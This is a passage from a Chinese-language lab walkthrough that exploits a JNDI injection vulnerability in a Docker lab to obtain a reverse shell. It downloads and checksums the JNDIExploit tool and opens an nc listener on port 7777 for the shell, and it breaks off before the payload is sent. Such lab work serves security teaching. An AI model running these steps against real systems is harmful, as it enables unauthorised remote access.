 
4. 接下来尝试利用漏洞进行 shell 反弹。首先在攻击者虚拟机中下载 JNDIExploit 工具并验证是否正确（可以看到校验和相同，证明下载包并未在途中被更改）

    ```
    # 获取zip包
    wget https://github.com/Mr-xn/JNDIExploit-1/releases/download/v1.2/JNDIExploit.v1.2.zip

    # 解压缩
    unzip JNDIExploit.v1.2.zip

    # 计算SHA-256校验和
    shasum -a 256 JNDIExploit-1.2-SNAPSHOT.jar
    # c96ce1de7f739575d86f2e558aeb97dc691077b31a1c510a3dabf096c827dfa8  JNDIExploit-1.2-SNAPSHOT.jar
    ```
    <div><img src="img/下载并验证JNDIExploit.png" width=100%></div>

5. 利用漏洞进行 shell 反弹

    ```
    # victim 主机，检查漏洞容器已经正常启动
    docker ps

    # attacker 主机开启多个终端
    # 1.监听7777端口等待 shell 反弹
    nc -l -p 7777
